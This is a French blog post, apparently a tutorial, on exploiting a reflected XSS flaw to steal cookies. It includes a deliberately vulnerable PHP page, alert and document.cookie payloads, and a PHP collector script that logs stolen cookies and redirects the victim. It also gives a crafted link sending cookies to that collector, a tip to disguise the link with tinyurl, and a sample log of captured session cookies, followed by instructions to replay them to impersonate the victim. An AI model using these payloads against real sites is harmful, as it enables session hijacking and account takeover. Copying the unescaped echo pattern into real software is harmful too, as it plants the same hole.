 ```yaml
---
layout: post
category : astuce
tagline: ""
tags : [latex]
---
```

{% include JB/setup %}

Des failles, on en laisse à la pelle. Pour preuve, j'en ai encore corrigé hier sur ce site et je suis convaincu qu'il en reste et qu'il en restera toujours (PS : l'utilisation d'un framework simplifie largement la sécurisation d'un site). 

Essayons d'exploiter la faille XSS pour effectuer un vol de cookie !

*****

# Repérer la faille

Le but est de trouver une page sur un site ou nous pouvons injecter du code javascript, prenons cette page par exemple :

    <?php
     
    if ( isset($_GET['message']) ) {
    	echo $_GET[message];
    } else {
    	echo '<a href="vuln.php?message=Bonjour">Dire bonjour</a>';
    }
     
    ?>

Parfait nous avons notre exemple.
Essayons de l'appeler avec quelques paramètres :

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ealert(1)%3C/script%3E
	
![Faille détectée !](/assets/posts/xss1.png)

Oh la jolie alerte Il y a surement moyen de faire quelque chose avec ça !

Essayons d'aller plus loin, que pouvons nous obtenir de la page ?

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ealert(document.cookie)%3C/script%3E
	
![Faille détectée !](/assets/posts/xss2.png)

Vous avez compris que ça devient intéressant !

# Préparation du piège

Notre objectif je le rappel est de voler les cookies de notre cible. A ce point nous pourrions modifier le contenu de la page en envoyant une url personnalisée à un visiteur et bien d'autres choses. 

En volant les cookies nous pourrions nous faire passé par notre victime et donc nous connecter à sa place.

Imaginons l'idée suivante, on va diriger l'utilisateur vers une page en lui prenant ses cookies au passage, puis on enregistra ses cookies et on le redirigera vers la destination de notre choix afin qu'il ne se doute de rien.

    <?php
     
    if(isset($_GET['c']) && is_string($_GET['c']) && !empty($_GET['c'])) {
     
    	$referer = $_SERVER['HTTP_REFERER'];
    	$date = date('d-m-Y \à H\hi');
    	$data = "From :   $referer\r\nDate :   $date\r\nCookie : ".htmlentities($_GET['c'])."\r\n------------------------------\r\n";
     
    	$handle = fopen('cookies.txt','a');
    	fwrite($handle, $data);
    	fclose($handle);
     
    }
     
     
    // et on envoie la cible où l'on veut pour détourner son attention ;)
    ?>
    <script language="javascript" type="text/javascript">
    	window.location.replace("http://www.plop.org");
    </script>

Pour piéger notre victime, il suffira de lui envoyer un lien de ce type :

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ewindow.location.replace(%22http://127.0.0.1/microdev/xavier/hacking/volCookies.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E
	
Bien sur un petit coup de tinyurl et il ne se doutera de rien !


# Résultat

Voyons si la pêche à été bonne, regardons le contenu de notre fichier texte : 

    From :   http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ewindow.location.replace(%22http://127.0.0.1/microdev/xavier/hacking/volCookies.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E
    Date :   10-10-2010 à 00h27
    Cookie : saffir_login=victime; saffir_pass=ab4f63f9ac65152575886860dde480a1; __utmz=96992031.1282937148.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=fdbceu2i112mt0j6vavr7mgp76; __utma=96992031.1472722046.1286240095.1286645182.1286656603.10; __utmc=96992031; __utmb=96992031.176.10.1286656603
    ------------------------------

Il ne nous reste qu'a remplacer nos cookies par ceux de la victime pour se faire passer pour elle, fatale.

Pour plus de détails, voir l’article sur [développez](http://julien-pauli.developpez.com/tutoriels/securite/developpement-web-securite/?page=xss).

